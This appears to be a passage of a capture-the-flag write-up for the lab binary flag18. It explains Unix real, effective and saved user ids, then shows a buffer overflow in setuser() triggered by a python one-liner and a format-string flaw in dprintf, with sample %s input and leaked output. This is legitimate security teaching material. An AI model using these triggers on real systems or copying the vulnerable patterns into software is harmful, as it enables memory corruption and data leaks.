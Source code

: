 setresXid sets the real, effective and saved user/group id of the calling process. But what are these different 
user identifiers for?

+ effective user id (euid): Is used for access checks (like opening a file). Also used for files created. This represents
	the actual capabilities of the process.
+ real user id (ruid): The users id of the process owner. When there is no setuid/setgid bit set on the process, it's the same
	as the user who invoked the process.
+ saved user id (suid): Variable to keep track of the original user id. Used to lower privileges and remember them for later use.

So the above calls to `setresgid()` set all of this different id's to the same value: the effective user/group id.


#### The hard way - buffer overflow

There is a buffer overflow in the function `setuser()`. There the a buffer with length 128 is formatted
with unbound user input data:

	:::C
	char msg[128];

	sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);

To trigger the overrun, call it like this:

	:::bash
	python -c 'print "setuser " + 150 * "A"' | ./flag18 -vvvvv -d /tmp/dbg


#### Format string vulnearabilities

Then there is the function:

	:::C
	void notsupported(char *what)
	{
	  char *buffer = NULL;
	  asprintf(&buffer, "--> [%s] is unsupported at this current time.\n", what);
	  dprintf(what);
	  free(buffer);
	}

which can be used to exploit format string vulnearabilities. An example might be to enter the following
after having called flag18 with `./flag18 -vvvvv -d /dev/tty`:

	:::bash
	site exec %s%s%s%s%s%s%s%s%s
	got [site exec %s%s%s%s%s%s%s%s%s] as input
	F<~F<F<u'VHBBu,OOOOOOOPgot [%s] as input
	,--> [%s%s%s%s%s%s%s%s%s] is unsupported at this current time.
